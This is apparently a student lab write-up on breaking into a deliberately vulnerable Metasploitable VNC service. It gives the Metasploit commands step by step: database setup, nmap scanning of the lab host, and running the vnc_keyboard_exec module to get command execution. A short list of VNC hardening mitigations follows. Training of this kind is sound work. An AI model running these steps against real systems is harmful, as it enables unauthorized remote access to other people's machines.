








# 07 - Metasploitable VM
## Exploit
1. The Docker is a minimal version therefore it's needed to initialize the database and start meterpreter console
```bash
service postgresql start
msfdb init
msfconsole
```



2. In the next step, we are going to make a scan on the target, to decide which services are open and which not.
```bash
db_nmap -V-sV iloveshells.vm.vuln.land
db_nmap -A -p 0-10000
```




3. VNC seems to be open, let's search for a exploit.

```bash
search vnc
```

4. Now we that to `use` the module and make sure that all needed options are set.  

```bash
use exploit/multi/vnc/vnc_keyboard_exec
set RHOSTS iloveshells.vm.vuln.land
run
```



5. Now we can make some funny stuff with the target. Let's run `ps`



## Mitigation
- VNC should only be accessible with VPN
- Use strong encryption
- Use SSH based authentication
- Update to latest version
- Bye enterprise subscription
- Turn off screen blanking
- Set Blacklist Threshold 
- Turn on connection approval with owner is present